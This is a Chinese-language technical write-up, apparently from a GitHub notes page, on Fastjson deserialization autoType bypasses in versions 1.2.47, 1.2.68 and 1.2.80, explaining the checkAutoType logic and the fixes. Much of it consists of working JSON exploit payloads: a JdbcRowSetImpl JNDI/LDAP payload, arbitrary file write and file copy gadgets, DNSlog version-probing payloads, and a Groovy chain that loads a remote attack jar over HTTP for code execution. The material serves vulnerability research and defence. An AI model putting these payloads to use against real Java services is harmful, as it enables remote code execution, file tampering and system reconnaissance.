






## JavaBean实例化

对于绕过checkAutoType()检查的class 会调用`com.alibaba.fastjson.parser.ParserConfig#createJavaBeanDeserializer`

创建反序列化解析器 通过asm框架收集构造函数信息 参数名信息 属性信息 getter setter方法信息

构造方法:

- 最优先无参构造
- 没有无参构造 选择唯一构造方法
- 存在多个构造方法 选择参数最多的public构造方法
- 存在多个参数最多的构造 随机挑选一个
- 对静态内部类 则允许非public构造函数
- 对非public类 构造函数的参数可以进一步反序列化

实例属性Field:

- public属性 调用setter 也可以反射
- 非public属性 需要setter

## 1.2.47
`"@type": "java.lang.Class"`触发类型检查 进入`checkautoType()`方法

`ParserConfig.AUTO_SUPPORT=false` 也就不会调用`TypeUtils.loadClass()`加载target

但是会从`TypeUtils.mappings`获取:`TypeUtils.getClassFromMapping(typeName)` 后面获取缓存类的关键 

`java.lang.Class`是FastJson初始化反序列化器Deserializers映射表的key 对应`MiscCodec`

反序列化器Deserializers映射表 对应属性`ParserConfig.deserializers` 他的方法`findClass(typeName)`查找key并返回

`ParserConfig.deserializers`的key为常用类如:`Map.class List.class Object.class Cloneable.class Class.class`

返回Class.clss `checkautoType()`结束 根据Class.clss对应反序列化器`MiscCodec` 调用`deserialze()`

MiscCodec读取val的值 根据不同Class类型有不同的处理逻辑 常用:

- Class.class类型
    - 调用`TypeUtils.loadClass(strVal)` loadClass默认开启缓存 target加入mapping
    - 也可用于探测依赖环境 `{"@type":"java.lang.Class","val":${variable}}` 
- InetSocketAddress.class
    - `{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}`


修复方案：
- `TypeUtils`中关闭cache功能
-  `java.lang.Class`加入黑名单
- 并且在 MiscCodec 处理 Class 类的地方 设置了cache 为 false
- 将TypeUtils.loadClass的重载函数的默认缓存开关设置为false

```json
    {"x1": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "x2": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://x", 
            "autoCommit": true
        }
    }
```

## 1.2.68 

checkAutoType()方法在`autoTypeSupport==false`的情况下 是不允许调用`TypeUtils.loadClass(typeName)`的 

且只能加载白名单或临时允许的class 但在68版本存在下面逻辑:

```java
if (autoTypeSupport || jsonType || expectClassFlag) {
    boolean cacheClass = autoTypeSupport || jsonType;//
    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, cacheClass);
}
```

代表`TypeUtils.loadClass`也可以由`expectClassFlag`控制

`expectClassFlag`由`checkAutoType(String typeName, Class<?> expectClass, int features)`第二个参数控制

`checkAutoType()`会检查`typeName`(目标类)是否属于`expectClass`(期望类)的子类 

即满足`expectClass.isAssignableFrom(typeName) == true`

由`@type`触发`checkAutoType`检查 而`@type`的解析 是在fastjson预置的反序列化器中进行的

`JavaBeanDeserializer#deserialze()`存在下面逻辑:

```java
Class<?> expectClass = TypeUtils.getClass(type);
userType = config.checkAutoType(ref, expectClass, lexer.getFeatures());
refObj = parser.getConfig().getDeserializer(userType);
```

通过`@type`指定`java.lang.AutoCloseable` getDeserializer返回`JavaBeanDeserializer`处理器

```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"}
```

如下调用可以绕过:`config.checkAutoType(ref=java.io.ByteArrayOutputStream, expectClass=java.lang.AutoCloseable);`

> target类不能在黑名单内 即使`autoTypeSupport==false`也会检查黑名单

```java


//对期望类的限制 
if (expectClass != Object.class && expectClass != Serializable.class 
    && expectClass != Cloneable.class && expectClass != Closeable.class 
    && expectClass != EventListener.class && expectClass != Iterable.class 
    && expectClass != Collection.class) { 
        expectClassFlag = true;
    }
```

利用的范围在AutoCloseable的实现子类 并实现一些恶意利用 

> @type:value value必须是AutoCloseable的子类  AutoCloseable的实现类 多是输流相关

> 1.2.69将`java.lang.AutoCloseable`加入黑名单

利用条件总结为:

- expectClass不为null，且不等于Object.class、Serializable.class、Cloneable.class、Closeable.class、EventListener.class、Iterable.class、Collection.class;
- expectClass需要在缓存集合TypeUtils#mappings或deserializers中；
- expectClass和typeName都不在黑名单中；
- typeName不是ClassLoader、DataSource、RowSet的子类；
- typeName是expectClass的子类。


### payload1

调用MarshalOutputStream(out)构造函数 会调用父类 `ObjectOutputStream `的构造方法，该方法会调用 writeStreamHeader()，向底层输出流写入aced0005 触发out写入

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "/target/path",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },
        "bufLen": "100"
    },
    "protocolVersion": 1
}
```

写入空文件 漏洞检测

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.io.FileOutputStream",
        "file": "/tmp/pwned"
    }
}
```

### payload2

拷贝文件:

```json
{ 
  "@type":"java.lang.AutoCloseable",
  "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream",
  "targetPath":"/target/path",
  "tempPath":"/etc/hosts"
}
```


## 1.2.80

和1.2.68的绕过原理一致 通过期望类expectClass 这次选择`com.alibaba.fastjson.parser.deserializer.ThrowableDeserializer`

调用点:

```java
String exClassName = lexer.stringVal();
exClass = parser.getConfig().checkAutoType(exClassName, Throwable.class, lexer.getFeatures());
```

这里将期望类固定是`Throwable.class` 后续gadget范围在Throwable的实现类


获取到异常类之后 实例化:

```java
ex = this.createException(message, cause, exClass);
```

其中`message cause`可通过json字段控制 createException会调用exClass的构造方法后执行

```java
private Throwable createException(String message, Throwable cause, Class<?> exClass) throws Exception {
        Constructor<?> defaultConstructor = null;
        Constructor<?> messageConstructor = null;
        Constructor<?> causeConstructor = null;
        Constructor[] var7 = exClass.getConstructors();
        int var8 = var7.length;

        for(int var9 = 0; var9 < var8; ++var9) {
            Constructor<?> constructor = var7[var9];
            Class<?>[] types = constructor.getParameterTypes();
            if (types.length == 0) {
                defaultConstructor = constructor;
            } else if (types.length == 1 && types[0] == String.class) {
                messageConstructor = constructor;
            } else if (types.length == 2 && types[0] == String.class && types[1] == Throwable.class) {
                causeConstructor = constructor;
            }
        }
        
        if (causeConstructor != null) {
            return (Throwable)causeConstructor.newInstance(message, cause);
        } else if (messageConstructor != null) {
            return (Throwable)messageConstructor.newInstance(message);
        } else if (defaultConstructor != null) {
            return (Throwable)defaultConstructor.newInstance();
        } else {
            return null;
        }
    }
```

这里优先参数最多的构造方式 最后则是无参构造函数 

在解析JSON时 如果key不等于`@type`、`message`、`cause`、`stackTrace`的属性 存储在: `otherValues.put(key, parser.parse())`

当`otherValues`不为空 说明当前`exceptionClass`有额外属性需要设置

方便调试手动创建TestException类:

```java
public class TestException extends Exception{
    String cmd;
    public String getCmd() { return cmd; }
    public void setCmd(String cmd) { this.cmd = cmd; }
}
```

解析`{"@type":"java.lang.Exception","@type":"com.example.TestException","cmd":{}}` otherValues情况如下:

```java
otherValues = {HashMap@8053}  size = 1
 "cmd" -> {JSONObject@8063}  size = 0
```

需要解析TestException类属性 调用`getDeserializer(exClass)`为其创建`deserializer`:

  

由于TestException是Throwable的子类

```java
if (Throwable.class.isAssignableFrom(clazz)) {
    deserializer = new ThrowableDeserializer(this, clazz);
}
```

关键点在于通过`ParserConfig.getDeserializer(java.lang.Class<?>, java.lang.reflect.Type)`获取的deserializer

最后都会加入`ParserConfig.deserializers`集合中 该集合的Key可控

```java
this.putDeserializer((Type)type, (ObjectDeserializer)deserializer);
```

checkAutoType() 即便`autoType=false`也会从`ParserConfig.deserializers`中取值 达到绕过的效果

  

由于`"cmd":{}` cmd解析成指向`JSONObject` 调用`TypeUtils.cast()`

  

调用`TypeUtils.castToJavaBean(Map<String, Object> map, Class<T> clazz)`

  


castToJavaBean会对map和clazz校验 不满足条件时: `ParserConfig.getDeserializer()`->`putDeserializer()`

  


### 修复

checkAutoType增加逻辑 如果`Throwable.class.isAssignableFrom(clazz)` 清除clazz的值 最后checkAutoType返回null

  


### 总结

以`{"@type":"java.lang.Exception","@type":"com.example.TestException","cmd":{}}`为例

首先通过预置的java.io.Exception进入`ThrowableDeserializer.deserialze()`

接着ThrowableDeserializer解析第二个@type 调用`getDeserializer(第二个@type)` 放入ParserConfig.deserializers列表中

调用`ThrowableDeserializer.createException`创建实例 然后绑定属性 调用setter

以`属性名:{}`的形式 使得field与value 类型不一致

类型不一致时 触发TypeUtils.cast将属性字段的class也put进ParserConfig.deserializers列表中

最后在checkAutoType()中通过 `ParserConfig.deserializers.findClass()` 获取class

完成绕过

payload参考:`https://github.com/su18/hack-fastjson-1.2.80`

## 版本探测

### 1.2.47 dnslog


```json
[
  {
    "@type": "java.lang.Class",
    "val": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]
```

### 1.2.68 dnslog

java.lang.AutoCloseable加入黑名单 高于68版本 解析中断 不会触发dnslog

```json
[
  {
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress" {"address":, "val": "dnslog.log" }
  }
]
```

### 1.2.80 和 1.2.83 dnslog

#### 触发1次dnslog 代表版本为1.2.80 

进入`ThrowableDeserializer.deserialze()` 解析属性`otherValue` type指定`java.net.InetSocketAddress`

从而进入`MiscCodec.deserialze()` 调用`InetAddress.getByName(strVal)` 触发dns请求

解析下一个json时 同样`ThrowableDeserializer.deserialze()` 解析属性message 发现类型不是String 触发报错 解析结束

#### 触发2次 dnslog 代表版本为1.2.83

不在进入ThrowableDeserializer走正常反序列化流程 进入MiscCodec.deserialze() 依次触发两个dnslog

```json
[
    {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "otherValue": {
      "@type": "java.net.InetSocketAddress" {"address":, "val": "first.dnslog.cn"}
    }
},
    {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "message": {
      "@type": "java.net.InetSocketAddress" {"address":,"val": "second.dnslog.cn"}
    }
}
]
```


### payload1 groovy 链

第一部分利用ThrowableDeserializer将 将`org.codehaus.groovy.control.CompilationFailedException` 加入`ParserConfig.deserializers`

触发cast将实例属性unit的类型`org.codehaus.groovy.control.ProcessingUnit`加入`ParserConfig.deserializers`

```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

第二部分利用JavaBeanDeserializer控制期望类`expectClass`的特性 方式:`@type:expectClass,@type:targetClass`

期望类`expectClass`=org.codehaus.groovy.control.ProcessingUnit 已经被加入`ParserConfig.deserializers`可以通过check()

他的子类`org.codehaus.groovy.tools.javac.JavaStubCompilationUnit`也可通过check()

解析`JavaStubCompilationUnit`构造函数的参数 首先config 类型:`org.codehaus.groovy.control.CompilerConfiguration`

解析config时 解析到@type:className 当className与config类型一致时 不会触发check()检测

当然也可以省略`"@type": "org.codehaus.groovy.control.CompilerConfiguration"`

调用JavaStubCompilationUnit构造函数  接着调用父类CompilationUnit的super()构造函数 
    -> ProcessingUnit的super()
    -> ProcessingUnit#setClassLoader 
    -> new GroovyClassLoader(parent, this.getConfiguration()); 
    -> addClasspath(path)

触发classload远程加载jar 

jar包生成项目参看:`https://github.com/Lonely-night/fastjsonVul`

```json 
{
  "@type":"org.codehaus.groovy.control.ProcessingUnit",
  "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
  "config":{
    "@type": "org.codehaus.groovy.control.CompilerConfiguration",
    "classpathList":["http://127.0.0.1:8000/attack-1.jar"]
  },
  "gcl":null,
  "destDir": "/tmp"
}
```